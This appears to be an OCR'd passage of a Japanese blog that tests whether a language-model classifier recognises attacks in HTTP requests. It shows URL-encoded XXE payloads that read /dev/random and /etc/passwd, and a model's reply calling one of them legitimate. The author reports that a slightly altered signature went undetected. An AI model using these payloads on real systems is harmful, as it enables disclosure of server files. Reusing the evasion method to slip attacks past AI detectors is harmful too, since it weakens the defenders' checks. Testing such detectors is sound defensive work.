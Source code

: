 msg=<span style="color: #ff0000">%3C%3Fxml++version%3D%221.0%22+encoding%3D%22ISO-8859-1%22%3F%3E%0D%0A%3C%21DOCTYPE+foo+%5B%0D%0A+++%3C%21ELEMENT+foo+ANY+%3E%0D%0A+++%3C%21ENTITY+xxe+SYSTEM++%22file%3A%2F%2F%2Fdev%2Frandom%22+%3E%5D%3E%0D%0A%3Cfoo%3E%26xxe%3B%3C%2Ffoo%3E</span>&_token=Qu5lkUoatVRwANAHzWEUKMdRrLBcCcS7Np3Nxpsu
</pre>
</div>

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
<span style="color: #ff0000">No</span>, this is not a cyber attack. This is a legitimate HTTP request.
</pre>
</div>

#### POSTパラメータ②

　攻撃シグネチャを少し修正して再度挑戦。

- POST :`<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>`
- 10.00 秒
- **検出なし**

<div class="md-code" style="width:100%">
<pre class="code" data-lang="" data-unlink>
Is the following HTTP request a cyber attack?
-----
POST /post HTTP/1.1
ACCEPT-LANGUAGE: ja-JP,ja;q=0.9,en-US;q=0.8,en;q=0.7,da;q=0.6,zh-CN;q=0.5,zh-TW;q=0.4,zh;q=0.3
ACCEPT-ENCODING: gzip, deflate, br
REFERER: http://127.0.0.1/
SEC-FETCH-DEST: document
SEC-FETCH-USER: ?1
SEC-FETCH-MODE: navigate
SEC-FETCH-SITE: same-origin
ACCEPT: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
USER-AGENT: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
CONTENT-TYPE: application/x-www-form-urlencoded
ORIGIN: http://127.0.0.1
UPGRADE-INSECURE-REQUESTS: 1
SEC-CH-UA-PLATFORM: "macOS"
SEC-CH-UA-MOBILE: ?0
SEC-CH-UA: "Chromium";v="110", "Not A(Brand";v="24", "Google Chrome";v="110"
CACHE-CONTROL: no-cache
PRAGMA: no-cache
CONTENT-LENGTH: 287
CONNECTION: keep-alive
HOST: 127.0.0.1

msg=<span style="color: #ff0000">%3C%3Fxml+version%3D%221.0%22+encoding%3D%22ISO-8859-1%22%3F%3E%0D%0A%3C%21DOCTYPE+foo+%5B%0D%0A++%3C%21ELEMENT+foo+ANY+%3E%0D%0A++%3C%21ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fetc%2Fpasswd%22+%3E%5D%3E%0D%0A%3Cfoo%3E%26xxe%3B%3C%2Ffoo%3E</span>&_token=Qu5lkUoatVRwANAHzWEUKMdRrLBcCcS7Np3Nxpsu
</pre>
</div>
